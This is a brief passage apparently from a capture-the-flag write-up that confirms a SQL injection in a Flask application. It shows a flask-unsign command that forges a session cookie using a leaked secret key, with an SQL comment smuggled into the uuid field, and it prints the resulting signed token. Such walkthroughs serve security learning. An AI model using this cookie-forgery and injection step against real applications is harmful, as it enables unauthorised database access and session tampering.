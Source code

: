 [![sql_proof_1](/img/spider/sql_proof_1.png)](/img/spider/sql_proof_1.png)

To proof this thesis we sign another cookie but this time fixing the query with a comment.

```
$ flask-unsign --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942 -s -c "{'cart_items': [], 'uuid': \"d9b910d5-3180-4274-a3e0-6d82e9fef789'-- -\"}"
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6ImQ5YjkxMGQ1LTMxODAtNDI3NC1hM2UwLTZkODJlOWZlZjc4OSctLSAtIn0.YLOA6A.8vKtacty9swGa3RTHgMiRsR1yhg
```

This time the application doesn't error which confirms our suspicion and we can take further steps.

[![sql_proof_2](/img/spider/sql_proof_2.png)](/img/spider/sql_proof_2.png)
